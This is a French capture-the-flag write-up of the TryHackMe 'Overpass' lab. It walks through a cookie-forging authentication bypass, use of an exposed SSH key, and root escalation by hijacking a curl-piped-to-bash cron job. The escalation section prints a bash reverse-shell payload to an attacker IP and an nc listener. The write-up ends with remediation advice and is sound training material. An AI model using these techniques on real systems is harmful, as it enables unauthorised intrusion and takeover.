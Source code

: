 # TryHackMe – Overpass

## Présentation générale

La room **Overpass** est une machine de difficulté **Medium** sur [TryHackMe](https://tryhackme.com/room/overpass). Elle simule un gestionnaire de mots de passe développé par une équipe d’étudiants.\
L’objectif est d’identifier et d’exploiter les vulnérabilités pour obtenir dans l’ordre :

1. un accès utilisateur (`user.txt`) ;
2. une escalade de privilèges vers `root` (`root.txt`).

Ce write‑up décrit la méthodologie appliquée, les étapes de reconnaissance, l’exploitation des vulnérabilités ainsi que des recommandations pour corriger ces failles.

---

## Étape 1 : Reconnaissance

### Scan réseau

La première étape consiste à scanner la machine avec **Nmap** afin d’identifier les ports ouverts et les services exposés.

```bash
nmap -sV -T5 -O 10.10.139.53
```

**Résultats clés :**

| Port | Service | Version       |
| ---- | ------- | ------------- |
| 22   | SSH     | OpenSSH 8.0   |
| 80   | HTTP    | Apache 2.4.37 |

### Analyse du site web

Le port 80 héberge l’application web **Overpass**, un gestionnaire de mots de passe.

Avec un outil de fuzzing tel que **Gobuster**, plusieurs chemins intéressants sont découverts, notamment `/admin` et `/downloads`.

Une inspection du JavaScript côté client (`login.js`) révèle une logique d’authentification vulnérable.

---

## Étape 2 : Accès initial via contournement d’authentification

### Vulnérabilité détectée

Le fichier `login.js` montre que la session repose sur un cookie `SessionToken` défini directement à partir de la réponse serveur, sans validation supplémentaire.

En forçant la valeur de ce cookie dans le navigateur il est possible d’outrepasser l’authentification et d’accéder à `/admin` sans identifiants :

```javascript
// Dans la console du navigateur
Cookies.set("SessionToken", "CeQueTuVeux");
window.location = "/admin";
```

### Extraction de la clé SSH

La page `/admin` propose en téléchargement une **clé SSH privée** associée à l’utilisateur `james`.

```bash
chmod 600 james_rsa
ssh -i james_rsa james@10.10.139.53
```

Une fois connecté, le flag `user.txt` peut être récupéré depuis le répertoire personnel de `james`.

---

## Étape 3 : Escalade de privilèges

### Analyse des indices

Dans la session `james`, un fichier `todo.txt` mentionne un processus de build automatisé.\
L’analyse des crons affiche la ligne suivante :

```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Le **cron** télécharge donc chaque minute un script distant et l’exécute avec les privilèges **root** sans contrôle d’intégrité.

### Exploitation

En redirigeant le nom de domaine `overpass.thm` vers notre machine (modification locale de `/etc/hosts`), nous prenons le contrôle du script récupéré.

```bash
# /etc/hosts
10.21.208.96    overpass.thm
```

Nous hébergeons un script malveillant lançant un reverse shell root :

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.21.208.96/4444 0>&1 &
```

Puis nous écoutons sur le port 4444 :

```bash
nc -lvnp 4444
```

Lorsque `cron` exécute le script, un shell root est établi et le flag `root.txt` devient accessible.

---

## Résultat final

```bash
root@overpass:~# cat /root/root.txt
THM{<redacted>}
```

---

## Recommandations de sécurité

1. **Validation stricte des sessions**\
   Ne jamais se fier uniquement à des cookies manipulables côté client.
2. **Sécurisation des cron jobs**\
   N’exécuter aucun script distant sans vérification d’intégrité (hash, signature).
3. **Contrôle des résolutions DNS locales**\
   Restreindre les modifications d’`/etc/hosts` et surveiller les anomalies DNS.
4. **Gestion sécurisée des clés SSH**\
   Éviter l’exposition de clés privées via une interface web et appliquer le principe du moindre privilège.
5. **Supervision et alertes**\
   Mettre en place une détection d’exécution de scripts distants et de modifications non autorisées.

---

## Conclusion

Cette room démontre comment des failles simples, combinées, permettent de compromettre une infrastructure complète. Elle met en évidence l’importance :

- d’une défense en profondeur ;
- de processus de développement sécurisés ;
- d’une supervision active des systèmes.

> **TLDR**\
> Un simple contournement d’authentification a ouvert la voie à l’exfiltration d’une clé SSH, puis à l’escalade root via un cron non sécurisé.

---

**Auteur :** Saad Idrissi

